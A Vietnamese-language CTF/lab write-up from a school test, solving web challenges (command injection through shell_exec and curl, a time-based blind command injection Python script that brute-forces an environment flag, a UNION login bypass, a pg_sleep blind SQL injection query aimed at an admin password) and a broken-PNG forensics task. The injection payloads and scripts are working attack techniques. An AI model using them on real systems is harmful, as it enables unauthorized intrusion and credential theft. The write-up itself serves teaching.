+++
title = "School Lab: First Test - Web App & Forensics"
date = 2023-07-23
description = "Write-up cho bài kiểm tra đầu tiên với các thử thách Web (Command Injection, Blind SQL Injection) và Forensics (Fixing PNG header)."
[taxonomies]
tags = ["ctf", "web", "sql-injection", "forensics", "php", "command-injection", "timing-attack"]
[extra]
toc = true
+++

Write-up chi tiết cho các bài Lab trong đợt kiểm tra đầu tiên, bao gồm các mảng Web Application và Forensics.

**Author**: JakeClark | planeandcars0744 | jc38b  
**Date**: Sunday, July 23rd, 2023

<!-- more -->

## Web App

### Head1 (Command Injection)

**Phân tích đề**:
Source code gợi ý việc sử dụng `shell_exec` để gọi `curl`:

```php
if (isset($_GET['input_data'])) {
	$output = shell_exec("curl --head " . $_POST['input_data']);
	echo $output;
}
```

Lỗ hổng nằm ở chỗ `$_POST['input_data']` được đưa trực tiếp vào lệnh shell mà không qua kiểm soát. Tuy nhiên, có một filter ngăn chặn ký tự gạch dưới `_`. Chúng ta có thể bypass bằng cách dùng `%5f`.

**Tấn công**:
Sử dụng Burp Suite để đổi request sang POST và chèn thêm lệnh shell thông qua dấu `;`.





---

### Head2 (Blind Command Injection - Timing Attack)

**Phân tích đề**:
Tương tự bài trên nhưng không có output trả về. Đây là dạng Blind Command Injection. Chúng ta sẽ sử dụng kỹ thuật **Time-based Blind** để brute-force flag từ biến môi trường `$FLAG`.

**Setup brute-force**:
- Nếu ký tự thứ $n$ của flag đúng: `sleep 2`.
- Nếu sai: Không làm gì cả.

**Python Script**:

```python
import requests
import time

charlist = [chr(i) for i in range(33, 127)]
flag = ""
char_url = "http://target/?input_data=file:///; SUBSTRING=$(echo $FLAG| cut -c 88-88); if [ \"$SUBSTRING\" = \"99\" ]; then sleep 2; fi"

while True:
    FOUND = False
    for char in charlist:
        t1 = time.time()
        # Replace 88 with index, 99 with char
        resp = requests.get(char_url.replace('88', str(len(flag)+1)).replace('99', char))
        t2 = time.time()
        if t2-t1 > 1.5:
            flag += char
            FOUND = True
            break
    if not FOUND or flag.endswith("}"):
        break
print(flag)
```

---

### DejaVu (SQL Injection)

**Phân tích đề**:
Trang login dính lỗi SQL Injection khi nhập các ký tự đặc biệt như `'`.



Query bị lộ: `SELECT * FROM users WHERE username='$username' AND password='$password'`.

**Login Bypass**:
Sử dụng UNION để luôn trả về 1 dòng kết quả:
- Username: `admin`
- Password: `' UNION SELECT NULL, NULL --`


**Khai thác thông tin**:
Dùng UNION để lấy thông tin từ `information_schema.tables` và `information_schema.columns`.




Sau khi tìm thấy bảng `secret` và các cột chứa flag, ta lấy được các phần của flag:



**Bypass filter để lấy admin password**:
Dòng code `if (preg_match("/users/i", $newsQuery)) die("No hack 🐳");` ngăn chặn truy cập bảng `users`. Tuy nhiên, vì lệnh `pg_query` chạy trước khi kiểm tra filter, ta có thể dùng **Time-based Blind SQLi**.

```python
# Query setup
username_query = f"' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {len(flag)+1}, 1) = '{i}') THEN (SELECT 1 FROM pg_sleep(2)) ELSE 1 END)=1 -- "
```

---

## Forensics

### Dimension (Broken PNG)

**Phân tích đề**:
File ảnh tải về không mở được. Kiểm tra bằng `pngcheck` báo lỗi IHDR. Mở bằng hex edit thấy 4 byte chiều dài/rộng có thể đã bị xóa.




**Tấn công**:
Dùng script brute-force CRC checksum của IHDR để tìm lại chiều rộng và chiều cao gốc của ảnh.



Sau khi sửa lại hex data:


